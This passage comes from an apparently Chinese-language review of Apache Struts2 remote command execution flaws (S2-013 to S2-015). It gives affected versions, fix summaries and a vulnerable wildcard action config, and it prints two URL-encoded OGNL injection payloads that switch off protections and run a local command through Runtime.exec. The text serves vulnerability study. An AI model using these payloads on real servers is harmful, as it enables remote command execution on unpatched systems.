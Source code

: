     http://localhost:8080/S2-013/link.action?xxxx=%25%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
    
![](/images/articles/2016-05-06-review-struts2-remote-command-execution-vulnerabilities/7.png)

S2-014 是对 S2-013 修复的加强，在 S2-013 修复的代码中忽略了 `${ognl_exp}` OGNL 表达式执行的方式，因此 S2-014 是对其的补丁加强。

    http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D

### S2-015

> 官方链接：[https://struts.apache.org/docs/s2-015.html](https://struts.apache.org/docs/s2-015.html)
> 
> 影响版本：Struts 2.0.0 - Struts 2.3.14.2
> 
> 修复摘要：针对 Action 名称进行默认字符限制 [a-z]*[A-Z]*[0-9]*[.\-_!/]* 

漏洞产生于配置了 Action 通配符 `*`，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```xml
	<package name="S2-015" extends="struts-default">
		<action name="*" class="com.demo.action.PageAction">
			<result>/{1}.jsp</result>
		</action>
	</package>
```
